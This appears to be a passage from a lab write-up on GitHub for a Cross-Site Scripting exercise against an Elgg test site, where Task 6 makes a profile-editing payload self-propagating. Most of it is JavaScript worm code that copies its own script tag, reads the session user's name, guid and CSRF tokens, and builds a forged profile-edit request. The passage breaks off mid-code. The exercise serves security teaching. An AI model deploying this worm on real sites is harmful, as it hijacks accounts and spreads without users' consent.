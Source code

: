 

![alt text](https://github.com/RubiaQayoum/Cross-Site-Scripting-Attack/blob/main/boby_profile.png)



#Task 6

To make the code in Task 5 self-propogating:

###DOM Approach
Do some subtle modification based on the code in Task 5:
```
<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
```